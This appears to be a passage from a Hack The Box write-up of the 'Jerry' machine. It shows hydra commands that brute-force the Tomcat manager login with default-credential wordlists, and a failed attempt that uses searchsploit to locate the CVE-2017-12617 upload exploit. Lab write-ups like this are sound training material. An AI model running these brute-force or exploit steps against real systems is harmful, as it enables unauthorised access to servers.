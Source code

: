 
# Additional
---

## Brute Force Tomcat Login

In other cases, the credentials might be changed

```bash

# Default Creds for tomcat
hydra -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt jerry.htb -s 8080 http-get /manager/html -I -vV -t 50


# Common Default Creds
hydra -L /usr/share/seclists/Usernames/cirt-default-usernames.txt -P /usr/share/seclists/Passwords/cirt-default-passwords.txt jerry.htb -s 8080 http-get /manager/html -I
```

> The `cirt-default` wordlist takes about 20 minutes to get a result
{: .prompt-tip }


## Failed Attempts


### Exploit tomcat 7.0.88 - JSP Upload Bypass (CVE-2017-12617)

```bash
searchsploit apache tomcat 7.0.88
```

![](/assets/obsidian/6a627d83e065f11907be6b35d853c356.png)

```bash
┌──(bravosec㉿fsociety)-[~/htb/Jerry]
└─$ searchsploit -m 42966
  Exploit: Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (2)
      URL: https://www.exploit-db.com/exploits/42966
     Path: /usr/share/exploitdb/exploits/jsp/webapps/42966.py
    Codes: CVE-2017-12617
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /home/kali/htb/Jerry/42966.py
```

